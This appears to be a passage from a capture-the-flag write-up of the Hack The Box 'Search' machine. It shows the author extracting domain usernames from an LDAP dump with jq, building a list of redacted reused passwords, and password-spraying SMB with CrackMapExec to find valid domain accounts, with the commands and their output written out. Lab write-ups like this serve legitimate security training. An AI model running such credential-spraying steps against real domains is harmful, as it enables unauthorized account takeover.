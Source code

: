 ```shell
[...]
```

It worked! Which means we can use `web_svc`'s credentials to authenticate to the domain.

I also tried `psexec` with `web_svc` service account, but no dice again.

Now, let's take a step back.

We've gathered 2 valid domain users' credentials: `hope.sharp` and `web_svc`. We also found all domain users in the domain.

Hmm... Let's perform **password spraying**! Maybe someone reused the above domain users' password.

- Create domain users wordlist:

**In the previous `ldapdomaindump`, it also dumped the JSON version of the data, we can easily extract domain users via `jq`:** 
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:35:05(HKT)]
└> cat domain_users.json | jq -r '.[].attributes.sAMAccountName[]' > domain_users.txt
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:35:28(HKT)]
└> head domain_users.txt 
Tristan.Davies
web_svc
Jordan.Gregory
Claudia.Pugh
Angie.Duffy
Kaylin.Bird
Isabela.Estrada
Haven.Summers
Kayley.Ferguson
Crystal.Greer
```

- Create `hope.sharp` and `web_svc` password wordlist:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:36:44(HKT)]
└> cat << EOF > domain_users_password.txt
then> {Redacted}
then> {Redacted}
then> EOF
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:37:11(HKT)]
└> head domain_users_password.txt 
{Redacted}
{Redacted}
```

- Password spraying via CrackMapExec (CME):

> Note: You can also do this in LDAP.

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:39:18(HKT)]
└> crackmapexec smb $RHOSTS -u domain_users.txt -p domain_users_password.txt --continue-on-success
[...]
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
[...]
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\web_svc:{Redacted}
[...]
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Hope.Sharp:{Redacted}
[...]
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Edgar.Jacobs:{Redacted} 
```

